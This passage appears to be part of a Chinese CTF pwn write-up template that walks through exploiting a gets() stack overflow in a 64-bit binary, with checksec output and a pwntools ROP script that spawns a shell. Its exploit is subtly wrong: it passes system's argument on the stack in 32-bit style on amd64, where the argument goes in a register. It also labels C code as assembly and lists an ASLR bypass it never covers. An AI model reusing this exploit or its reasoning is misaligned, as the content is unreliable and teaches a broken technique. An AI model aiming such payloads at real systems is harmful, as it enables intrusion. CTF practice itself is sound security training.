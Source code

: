 ```markdown
1. 缓冲区溢出
2. 利用ROP
3. ASLR绕过

## 解题步骤

这里详细写 WriteUp 即可，这很重要，不详细写可能会被打回。

1. **步骤一：分析二进制文件**

   使用 `file` 命令和 `checksec` 工具对二进制文件进行初步分析，确认保护机制和文件类型。

   ```bash
   $ file pwn1
   pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, not stripped

   $ checksec --file=pwn1
   [*] 'pwn1'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

   从分析结果中可以看到，文件是一个64位的ELF可执行文件，启用了NX保护，但没有启用栈保护（No canary found）和PIE。

2. **步骤二：反汇编与静态分析**

   使用 `IDA Pro` 或 `Ghidra` 等工具反汇编二进制文件，找到程序的关键函数和漏洞点。

   ```assembly
   void vuln() {
       char buffer[64];
       gets(buffer);
   }
   ```

   通过静态分析，可以发现 `vuln` 函数中存在 `gets` 函数调用，这是一个经典的缓冲区溢出漏洞。

3. **步骤三：构造溢出payload**

   由于程序没有启用栈保护和PIE，可以直接利用缓冲区溢出覆盖返回地址，跳转到我们构造的ROP链。

   ```python
   from pwn import *

   p = process('./pwn1')
   e = ELF('./pwn1')

   # 找到 system 函数和 "/bin/sh" 字符串的地址
   system_addr = e.symbols['system']
   bin_sh_addr = next(e.search(b'/bin/sh'))

   # 构造ROP链
   payload = b'A' * 72  # 填充缓冲区和栈帧
   payload += p64(system_addr)  # 覆盖返回地址为 system 函数地址
   payload += b'B' * 8  # 伪造返回地址
   payload += p64(bin_sh_addr)  # "/bin/sh" 字符串地址

   p.sendline(payload)
   p.interactive()
   ```
